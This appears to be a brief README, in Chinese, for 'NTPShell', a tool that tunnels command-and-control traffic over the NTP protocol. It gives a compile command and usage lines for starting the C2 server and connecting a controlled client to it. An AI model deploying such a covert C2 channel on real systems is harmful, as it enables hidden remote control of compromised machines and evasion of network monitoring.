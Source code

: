 # NTPShell
通过NTP协议来负载C2数据。                 
**编译**           
gcc ntp.c -lpthread -o ntp
# 使用                           
c2服务端：./ntp -S                  
c2被控端：./ntp -C -s {server_addr}                
